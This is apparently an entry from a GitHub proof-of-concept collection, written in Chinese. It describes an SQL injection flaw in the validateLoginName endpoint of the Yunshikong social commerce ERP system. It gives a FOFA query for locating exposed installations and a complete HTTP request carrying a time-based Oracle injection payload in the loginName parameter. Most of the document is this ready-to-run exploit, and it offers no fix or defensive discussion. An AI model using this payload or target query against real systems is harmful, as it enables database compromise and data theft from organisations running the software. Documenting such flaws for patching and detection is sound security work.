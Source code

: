 ## 云时空社会化商业ERP系统validateLoginName接口处存在SQL注入漏洞

## fofa
```
app="云时空社会化商业ERP系统"
```

## poc
```
GET /sys/user/validateLoginName?loginName=admin'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),5)-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![b7009bbcc1323bb5ad48105abc815195](https://github.com/wy876/POC/assets/139549762/56ecb0a8-6e71-467f-8f00-e96e5d8e1969)
